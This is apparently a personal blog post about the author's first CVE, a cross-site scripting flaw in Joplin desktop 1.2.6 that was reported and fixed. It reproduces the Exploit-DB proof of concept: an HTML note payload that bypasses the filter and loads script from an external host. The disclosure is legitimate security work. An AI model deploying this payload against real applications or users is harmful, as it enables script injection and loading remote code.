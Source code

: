 ```yaml
---
title: "Tripping Over Xss"
date: 2021-01-24T14:03:56-05:00
draft: false
---
```


### Quite literally, tripping over XSS


While working an engagement, I was manually soft stepping through https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection and noting things as I went when all of the sudden...

![Screen Shot 2020-10-27 at 4.42.34 PM.png](/blogs/1_tripping_xss/xss.png)

This was reported to Laurent / Joplin and a fix implented in the following major version, not the most exciting finding but still a first CVE for me.

https://www.exploit-db.com/exploits/49024

```

# Exploit Title: Joplin 1.2.6 Cross Site Scripting
# Date: 2020-09-21
# Exploit Author: Philip Holbrook (@fhlipZero)
# Vendor Homepage: https://joplinapp.org/
# Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6
# Version: 1.2.6
# Tested on: Windows / Mac
# CVE : CVE-2020-28249
# References:
# https://github.com/fhlip0/JopinXSS/blob/main/readme.md

# 1. Technical Details
# An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

# 2. PoC
# Paste the following payload into a note:

```html
<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt;
<script src="//brutelogic.com.br&sol;1.js&num; </script>
```
